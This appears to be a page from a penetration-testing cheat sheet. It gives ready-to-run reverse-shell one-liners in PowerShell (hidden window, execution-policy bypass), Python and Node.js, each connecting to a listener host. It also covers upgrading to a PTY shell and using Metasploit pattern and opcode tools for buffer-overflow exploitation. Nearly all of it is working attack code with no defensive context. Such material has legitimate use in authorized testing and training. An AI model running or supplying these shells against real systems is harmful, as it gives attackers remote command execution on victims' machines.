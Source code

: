 #### PowerShell Reverse Shells
```bash
'powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.11.12.13",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
```

#### Python Reverse Shells
```python
export RHOST="10.10.10.10"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

#### JavaScript Reverse Shells
```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/bash", []);
    var client = new net.Socket();
    client.connect(4444, "192.168.69.123", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```

## Upgrade to a PTY Shell
#### Python PTY Shell
```bash
echo "import pty; pty.spawn('/bin/bash')" > /tmp/shell.py
python /tmp/shell.py
export TERM=xterm # be able to clear the screen, etc.
```

## Generating a String of Non-Repeating Characters
```bash
msf-pattern_create -l 1000 # print a string of 1000 non-repeating characters
msf-pattern_create -l 1000 -q 12345678 # get the number of bytes required to get to this offset
```

## Finding Opcodes
```bash
msf-nasm_shell # invoke msf-nasm_shell
jmp esp # give it an assembly instruction

# output
00000000 FFE4 jmp esp # the second column is the opcode that corresponds with your instruction
```
